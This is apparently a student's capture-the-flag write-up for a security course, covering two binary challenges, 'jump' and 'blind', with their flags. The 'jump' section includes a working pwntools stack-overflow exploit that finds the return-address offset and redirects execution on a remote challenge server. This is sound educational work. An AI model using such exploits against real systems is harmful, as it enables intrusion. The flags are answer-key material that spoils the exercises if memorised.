 jump
===========================

Flag: `COMP6447{g3T_R4ADY_2_J4MP}`

General overview of problems faced
-------------------------------------
- Had to figure out why `gdb.debug` wasn't spawning the terminal
- Searched for nicer way to use cyclic; turns out it's just in pwntools! Raw strings ftw
- Not much of a challenge here


Script/Command used
------------------
```python2
from pwn import *
context.binary = './jump'
context.terminal = ['alacritty', '-e', 'sh', '-c']

target = 0x8048536

crash = False

io = None
if crash:
    io = gdb.debug('./jump')
else:
    #io = process('./jump')
    io = remote('plzpwn.me', 2000)

io.recvuntil('?\n')

# Check eip at crash
if crash:
    pattern = cyclic(512)
    io.sendline(pattern)
    pause()
    # qaaa
    sys.exit()

exploit = 'A'*cyclic_find(r'qaaa') + pack(target)
io.sendline(exploit)
io.interactive()
```

blind
===========================

Flag: `COMP6447{4R3_U_BL1ND?}`

General overview of problems faced
-------------------------------------
- Pretty much same as jump, just needed a little `objdump`
